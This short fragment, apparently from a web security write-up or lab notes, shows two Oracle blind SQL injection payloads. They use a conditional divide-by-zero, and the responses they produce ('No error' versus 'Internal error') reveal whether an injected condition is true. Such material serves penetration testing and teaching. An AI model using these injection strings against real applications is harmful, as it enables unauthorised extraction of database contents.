 
' OR (SELECT CASE WHEN (1=1) THEN '1' ELSE to_char(1/0) END FROM dual)='1' --|
= No error

' OR (SELECT CASE WHEN (1=2) THEN '1' ELSE to_char(1/0) END FROM dual)='1' --| 
=Internal error
